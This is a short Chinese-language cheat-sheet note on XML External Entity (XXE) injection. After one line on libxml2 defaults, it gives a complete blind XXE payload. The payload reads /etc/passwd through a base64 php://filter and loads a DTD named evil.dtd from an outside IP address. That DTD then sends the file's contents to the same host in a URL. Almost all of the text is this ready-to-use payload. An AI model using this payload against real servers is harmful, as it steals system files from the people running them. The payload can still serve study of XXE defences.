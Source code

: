 - XXE (XML External Entity Injection 外部实体注入) 

- libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。

- 无回显的Blind XXE攻击：利用url带出数据，限制字数。

  ```
  漏洞触发点：
  <!DOCTYPE ANY [ 
  <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
  <!ENTITY % dtd SYSTEM "http://123.206.29.105/evil.dtd">
  %dtd;
  %send;
  ]>

  VPS evil.dtd文件：
  <!ENTITY % all
  "<!ENTITY &#x25; send SYSTEM 'http://123.206.29.105/?%file;'>"
  >
  %all;
  ```

  ​

